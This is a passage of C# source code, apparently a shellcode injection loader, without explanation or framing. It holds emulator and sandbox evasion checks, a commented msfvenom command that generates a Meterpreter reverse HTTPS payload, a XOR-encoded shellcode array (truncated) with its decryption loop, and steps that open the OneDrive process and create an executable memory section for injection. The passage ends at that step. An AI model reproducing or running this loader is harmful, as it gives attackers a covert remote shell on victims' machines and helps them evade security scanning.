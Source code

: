                 //Another emulated API check:
                IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
                if (ptrCheck == null)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[567] {0x9d,0x89,0xee,0x61,0x61,0x61,
    0x01,0x50,0xb3,0xe8,0x84,0x05,0xea,0x33,0x51,0xea,0x33,0x6d,
    ................................................

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                int bufLength = buf.Length;
                UInt32 uBufLength = (UInt32)bufLength;

                // Get handle on a local process
                IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

                // Get handle on a remote process (by name)
                Process[] pList = Process.GetProcessesByName("OneDrive");
                if (pList.Length == 0)
                {
                    Console.WriteLine("[-] No such process");
                    return;
                }
                int processId = pList.First().Id;
                IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
                if (hRemoteProcess == IntPtr.Zero)
                {
                    Console.WriteLine("[-] Failed to open remote process");
                    return;
                }

                // Create RWX memory section for the shellcode
                IntPtr hSection = new IntPtr();
                if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0)
                {
                    Console.WriteLine("[-] Failed to create a section for the shellcode");
                    return;
                }
